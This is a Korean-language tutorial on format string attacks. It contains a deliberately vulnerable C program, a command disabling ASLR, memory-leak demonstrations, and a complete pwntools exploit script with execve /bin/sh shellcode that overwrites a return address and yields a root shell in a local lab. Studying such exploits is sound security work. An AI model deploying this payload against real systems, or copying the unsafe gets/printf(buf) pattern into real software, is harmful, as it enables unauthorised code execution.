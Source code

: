 # **Format String Attack**

Format String은 형태를 지정해주는 문자열을 의미한다.  
형식지정자를 사용하지 않고 바로 printf() 함수에 인자를 입력받을 경우 발생하는 취약점이다.

## **Proof of Concept**

고정된 Stack 영역을 사용하기 위해 randomize_va_space의 값을 0으로 변경한다.

```
echo 0 > /proc/sys/kernel/randomize_va_space
```

```c
// Vuln Code
// gcc fmt.c -m32 -fno-stack-protector -z execstack -no-pie -o fmt
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc,char* argv[]){
    char buf[1024];
    printf("&buf: %p\n",&buf);
    gets(buf);
    printf(buf);
    printf("n");
    return 0;
}
```

형식지정자 입력 시 &buf부터 차례로 Memory Leak이 발생한다.

```
root@bs-virtual-machine:~/pwnable/fmt# ./fmt
&buf: 0xffffd150
%08x.%08x.%08x.
ffffd150.001ad23c.001ae23c.
```

Memory Leak을 하다보면 buf의 값을 확인할 수 있다.

```
root@bs-virtual-machine:~/pwnable/fmt# ./fmt
&buf: 0xffffd150
AAAA.0x%08x.0x%08x.0x%08x.0x%08x
AAAA.0xffffd150.0x001ad23c.0x001ae23c.0x41414141
```

처음에 넣은 AAAA(4Byte)가 4번째에에 출력되고 있다. 즉 네번째에 들어가는 포맷스트링은 처음 입력한 AAAA(4Byte)를 가리키는 것을 알 수 있다.  

따라서 "Ret Addr" + "%x%x%x" + "%n" Payload를 통해 원하는 메모리 주소에 원하는 값으로 변조할 수 있다.  

먼저 환경변수에 x86 EggShell을 삽입 후 출력되는 Stack Address를 통해 Return Address와 EggShell Address를 계산한다.

```
gdb-peda$ p 0xffffd4ac-0xffffd090 (Return Address - Stack)
$1 = 0x41c
gdb-peda$ p 0xffffd6fc-0xffffd090 (EggShell Address - Stack)
$3 = 0x66c
```

## **Exploit Code**

```python
# Exploit Code
from pwn import *
import os

# set eggshell
os.environ['eggshell'] = "x90"*100+"\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"

binary = ELF('./fmt')
p = process(binary.path)
stack_addr = int(p.recvline().split(' ')[1],16)
log.info('stack addr: '+hex(stack_addr))

ret_addr = stack_addr + 0x41c
eggshell_addr = stack_addr + 0x66c

log.info('ret addr: '+str(hex(ret_addr)))
log.info('eggshell addr: '+str(hex(eggshell_addr)))

eggshell_high = int("0x"+ str(hex(eggshell_addr))[2:6],16)
eggshell_low = int("0x"+str(hex(eggshell_addr))[6:10],16)

log.info("eggshell high: "+str(hex(eggshell_high)))
log.info("eggshell low: "+str(hex(eggshell_low)))

first_n = eggshell_low - 16 - 12
second_n = eggshell_high - 16 - 12 - first_n

payload = ""
payload += p32(ret_addr)
payload += "AAAA"
payload += p32(ret_addr+2)
payload += "%8x"*2
payload += "%"+str(first_n)+"c"+"%n"
payload += "%"+str(second_n)+"c"+"%n"

p.send(payload)
p.interactive()
```

## **Exploit**

```
root@bs-virtual-machine:~/pwnable/fmt# python exploit.py 
[*] '/root/pwnable/fmt/fmt'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Starting local process '/root/pwnable/fmt/fmt': pid 5036
[*] stack addr: 0xffffd0a0
[*] ret addr: 0xffffd4bc
[*] eggshell addr: 0xffffd70c
[*] eggshell high: 0xffff
[*] eggshell low: 0xd70c
[*] Switching to interactive mode
$ 
xbcտxffAAAAxbeտxffffffd0a0  1ad23c 
...
$ id
uid=0(root) gid=0(root) groups=0(root)
$ pwd
/root/pwnable/fmt
```